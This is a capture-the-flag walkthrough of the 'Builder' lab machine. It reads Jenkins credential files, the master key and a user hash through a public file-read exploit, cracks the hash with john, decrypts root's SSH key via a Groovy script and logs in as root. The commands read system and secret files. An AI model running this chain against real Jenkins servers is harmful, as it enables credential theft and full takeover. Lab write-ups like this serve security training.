- Machine Name: Builder
- Difficulty: Medium
- OS Type: Linux

### Port Scanning - Service & Version Enumeration

```jsx
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
8080/tcp open  http    syn-ack ttl 62 Jetty 10.0.18
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Dashboard [Jenkins]
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Jetty(10.0.18)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Port 8080/HTTP

port 8080 is open, let’s  open URL in browser



it is running jenkins, the version is also Disclosed - **`Jenkins 2.4.41`** 

searching for exploit i found Local File inclusion vulnerability → https://www.exploit-db.com/exploits/51993

let’s copy the exploit using searchsploit - `searchsploit -m 51993` 

let’s run the exploit to first get the /etc/passwd file to check if the exploit is working or not

```jsx
python3 51993.py -u http://10.10.11.10:8080/ -p /etc/passwd
```




this says the home folder of jenkins let’s search for the location of file which stores the credentials in jenkins 

while searching for creds i came to following blog 

https://looselytyped.com/blog/2017/10/25/uncovering-passwords-in-jenkins/



so we need to get the **`/var/jenkins_home/credentials.xml`**

let’s read the file using exploit 

```jsx
python3 51993.py -u http://10.10.11.10:8080/ -p /var/jenkins_home/credentials.xml
```



it looks like encrypted  SSH key of the root user

further research uncover that we need master key to decrypt the credentials which usually stored in `$JENKINS_HOME/secrets/master.key` 

```jsx
python3 51993.py -u http://10.10.11.10:8080/ -p /var/jenkins_home/secrets/master.key
```



now we need access to jenkins console to decrypt above SSH private key

further research on application reveals potential user - **Jennifer**



then i found that we can possibly, get the user’s password in $JENKINS_HOME/users/<username>/config.xml, but unfortunately it didn’t work for the jennifer user, further reading uncovers different files such as users.xml which contains the user details including usernames let’s try to access it

```jsx
python3 51993.py -u http://10.10.11.10:8080/ -p /var/jenkins_home/users/users.xml
```



nice we got the username, let’s use this to access the user’s password

```jsx
python3 51993.py -u http://10.10.11.10:8080/ -p /var/jenkins_home/users/jennifer_12108429903186576833/config.xml
```



i tried cracking password using john

```jsx
john jennifer.hash --wordlist=/usr/share/wordlists/rockyou.txt
```



let’s use this password to login as jennifer user



quick search for decrypting SSH keys in jenkins i found following groovy script

https://gist.github.com/hoto/d1c874480888f8711f12db33a20b6e4d

```jsx
hashed_pw='YourEncryptedPassword'
passwd = hudson.util.Secret.decrypt(hashed_pw)
println(passwd)
```



let’s  save this key in id_rsa, change the permissions via - `chmod 600 id_rsa` 

let’s SSH as root user

```jsx
ssh -i id_rsa root@10.10.11.10
```

